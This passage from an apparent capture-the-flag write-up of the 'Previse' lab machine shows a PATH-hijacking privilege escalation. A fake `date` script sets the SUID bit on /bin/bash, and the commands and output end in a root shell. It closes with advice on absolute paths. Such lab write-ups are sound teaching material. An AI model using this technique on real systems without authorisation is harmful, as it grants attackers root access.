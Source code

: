 Ah, the classic "Not using absolute PATH" vulnerability. Basically the usage of the `date` command is done without specifying the absolute path of the binary and relying on the `PATH` variable to locate the binary. 

We can exploit this by prepending to the `PATH` variable a directory we control and inside placing a malicious binary called `date`. This means that when the script executes `date` it wont execute `/usr/bin/date` but rather what we place in the directory above. All this while root. 

What i like to do is making the `/bin/bash` binary SUID, so we could become root at anytime by running `/bin/bash -p`.

```bash
m4lwhere@previse:/tmp/a$ export PATH=$(pwd):$PATH
m4lwhere@previse:/tmp/a$ echo $PATH
/tmp/a:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

We prepend the directory `/tmp/a` to the `PATH` variable, and inside we place a malicious script called `date` that makes `/bin/bash` a SUID binary.

```bash
m4lwhere@previse:/tmp/a$ cat date
#!/bin/bash

chmod +s /bin/bash
```

Now when we run the  `access_backup.sh`  with sudo, our script shall be executed instead of the original `date`.

```bash
m4lwhere@previse:/tmp/a$ ls -lha /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash
```

We confirm that `/bin/bash` now is a SUID binary and we can get a root shell by running `/bin/bash -p`

```bash
bash-4.4# whoami
root
bash-4.4# id
uid=1000(m4lwhere) gid=1000(m4lwhere) euid=0(root) egid=0(root) groups=0(root),1000(m4lwhere)
```

### 5.) Conclusion

- **NEVER** execute code that could possibly be controlled by an end-user, but if you have to, make sure you sanitize is properly. 
- Always use absolute paths when writing programs and if they access sensitive information make sure that they are not both executable and editable by a low privilege User. 
